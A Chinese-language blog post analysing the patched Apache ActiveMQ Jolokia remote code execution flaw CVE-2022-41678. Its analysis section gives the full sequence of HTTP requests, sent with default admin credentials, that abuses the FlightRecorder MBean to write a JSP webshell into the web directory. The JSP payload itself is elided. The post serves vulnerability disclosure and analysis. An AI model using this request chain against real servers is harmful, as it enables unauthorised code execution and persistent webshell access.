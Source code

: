 
# Apache ActiveMQ Jolokia 远程代码执行漏洞 (CVE-2022-41678) 分析

发表于 2023-11-29 更新于 2023-11-30 阅读次数：1018 Valine：

[↓↓↓](#valine-comments "valine")  
  
0  
  
[↑↑↑](#valine-comments "valine")

ActiveMQ 中，经过身份验证的用户默认情况下可以通过`/api/jolokia/`接口操作 MBean，其中 FlightRecorder 可以被用于写 Jsp WebShell，从而造成远程代码执行漏洞

FlightRecorder 存在于 Jdk 11+，具体类名：`jdk.management.jfr.FlightRecorderMXBeanImpl`

这个漏洞是我去年通过微步的 X 漏洞奖励计划提交的，今天看到已经被修复和公开了，就顺便写一下分析文章

## [](#%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4 "影响范围")影响范围

-   Apache ActiveMQ before 5.16.6
-   Apache ActiveMQ 5.17.0 before 5.17.4
-   Apache ActiveMQ 5.18.0 unaffected
-   Apache ActiveMQ 6.0.0 unaffected

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

### [](#%E5%8E%9F%E7%90%86 "原理")原理

漏洞入口在 [http://localhost:8161/api/jolokia/](http://localhost:8161/api/jolokia/) ，注意需要带上 Origin 头才可以访问

![image-20220730133512058](assets/1701679785-93fac394422c8b3c963125d727beb643.png)

主要问题出在 FlightRecorder 这个 Mbean，功能是记录内存，gc，调用栈等，漏洞用到的方法主要是以下几个

-   newRecording
    -   新建记录
-   setConfiguration
    -   更改配置
-   startRecording
    -   开始录制
-   stopRecording
    -   结束录制
-   copyTo
    -   导出录制文件

漏洞思路是通过 setConfiguration 修改配置，把一些键名改成 jsp 代码，记录的数据就会包含该 jsp 代码，录制完成后，通过 copyTo 导出到 web 目录即可

代码位置在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration

### [](#%E6%8B%BF%E5%88%B0%E9%BB%98%E8%AE%A4%E9%85%8D%E7%BD%AE "拿到默认配置")拿到默认配置

调用 setPredefinedConfiguration，断点停下来后可以拿到默认的配置，先保存下来

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 155

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setPredefinedConfiguration",
    "arguments": [1,"s"]
}
```

![image-20220730134739877](assets/1701679785-e3e848934504a0d405ae86b620fd6813.png)

### [](#%E6%96%B0%E5%BB%BA%E8%AE%B0%E5%BD%95 "新建记录")新建记录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

记录的 id 为 1，后面 poc 都要使用这个 id

![image-20220730134939126](assets/1701679785-ae89e8615416fa7b1217b87e6adc75ad.png)

### [](#%E6%9B%B4%E6%94%B9%E9%85%8D%E7%BD%AE "更改配置")更改配置

将默认配置的如下处改为 jsp 代码，特殊字符需要实体编码

![image-20220730135355053](assets/1701679785-26e9b97b07627c0b134f409a933593f7.png)

如下 arguments 的第一位参数是记录 id，第二个参数是配置内容（很长，已省略）

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 31263

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```

![image-20220730135515477](assets/1701679785-60d5c0b97d5827680ac04eac7d05b54b.png)

### [](#%E5%AF%BC%E5%87%BA%E5%BD%95%E5%88%B6%E5%88%B0web%E7%9B%AE%E5%BD%95 "导出录制到web目录")导出录制到 web 目录

开始录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 141

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [1]
}
```

![image-20220730135551581](assets/1701679785-1909c97e70a96be862fbfca81852df94.png)

结束录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [1]
}
```

![image-20220730135637118](assets/1701679785-a54b726b28ad58c0cc4421d90e7a1c9a.png)

导出到 web 目录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [1,"../webapps/admin/test.jsp"]
}
```

![image-20220730135719277](assets/1701679785-3c58e3809a9aa2830b84a2a624f51134.png)

### [](#%E8%AE%BF%E9%97%AEwebshell "访问webshell")访问 webshell

[http://localhost:8161/admin/test.jsp](http://localhost:8161/admin/test.jsp)

![image-20231129175943787](assets/1701679785-71ae0e35fbe0d9db0cc0180757c5b884.png)

## [](#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D "漏洞修复")漏洞修复

[https://github.com/apache/activemq/commit/6120169e5](https://github.com/apache/activemq/commit/6120169e5)

[\# 漏洞分析](https://l3yx.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) [\# ActiveMQ](https://l3yx.github.io/tags/ActiveMQ/) [\# Jolokia](https://l3yx.github.io/tags/Jolokia/)

[↓↓↓](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")  
  
Spring-Kafka 反序列化漏洞 (CVE-2023-34040) 分析  
  
[↑↑↑](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")
